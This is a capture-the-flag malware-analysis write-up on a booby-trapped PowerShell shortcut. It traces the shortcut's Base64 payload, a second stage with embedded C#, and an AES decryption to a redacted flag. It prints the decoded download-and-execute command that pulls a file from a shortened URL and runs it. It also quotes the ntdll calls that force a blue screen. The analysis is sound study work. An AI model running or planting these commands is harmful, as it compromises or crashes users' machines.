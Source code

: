# Russian Roulette

## Description

```
My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
````

***Personal Reflection
I’m thrilled to have raced through this challenge like a kid on a sugar high and snagged a spot in the top 8 fastest! Guess all those late-night debugging sessions paid off!
***



## Malware Analysis Procedure

This is a malicious file; use a sandbox environment. I am running Flare VM.

[Flare VM on GitHub](https://github.com/mandiant/flare-vm)


## Default Analysis Steps

When I conduct a malware analysis, I usually check for:

- **Network connections** → Wireshark
- **Memory activities** → DumpIt → Volatility or MemProcFS
- **Processes** → Process Monitor from Sysinternals
- **Disk activity**



***Steps to solve the CTF***

## Download the file and extract it in a safe env.

## Initial File Inspection

The first thing I do with the file is to run the command:

file <filename>

```
Windows PowerShell.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Feb 17 05:44:00 2024, mtime=Thu Oct 03 17:53:00 2024, atime=Sat Feb 17 05:44:00 2024, length=450560, window=hidenormalshowminimized.
```

The file is a LNK (shortcut) file.

Right-click the file and select Properties to view the targets.

This reveals that PowerShell executes a Base64 string, which can be decoded to extract the following command:
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd; & $env:TMP/.cmd
```


## Process Analysis
I can also see in the processes captured with Process Monitor that cmd spawns a PowerShell process, which then runs a Base64 string.

PID: 3660
PPID: 2116
I save the Base64 string to a file and run:
```
Base64.exe -d base64string.txt > stage2.txt
```
After decoding everything, we find that it resembles a PowerShell script with embedded C# code.

We refine the code to make it more readable (see the stage2.txt file in the folder).


## Decryption Process
We observe that decryption takes place, and we want to make the code "safe" by ONLY printing the decrypted output. Remove evrything else that dosnt have to do with the decryption.

How Does the Decryption Process Work?
Three Base64-encoded strings (c, k, and i) were decoded into byte arrays:

```c```: The encrypted text.
```k```: The AES key.
```i```: The Initialization Vector (IV) for AES.

I modify the code to print the decrypted string (see the aesdec.txt file).

Run the code and get the response: flag{REDACTED}

-------------------------------------------------------

## Note + Extra Nerdiness

[Link to additional resources](https://gist.github.com/MerijnHendriks/97f3096a5d779643ba6029d03dd86992)

If you run the code, you will experience a BSOD (Blue Screen of Death).

Why?
The code utilizes ntdll.dll, which implements basic functions for Windows. It can cause severe issues if mishandled.

```
RtlAdjustPrivilege(19, true, false, out o);
```
The number 19 represents SeShutdownPrivilege (allows the system to restart or shut down services).
```
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
```
NtRaiseHardError is a function that can trigger a "serious error," leading to a BSOD to prevent damage to the system.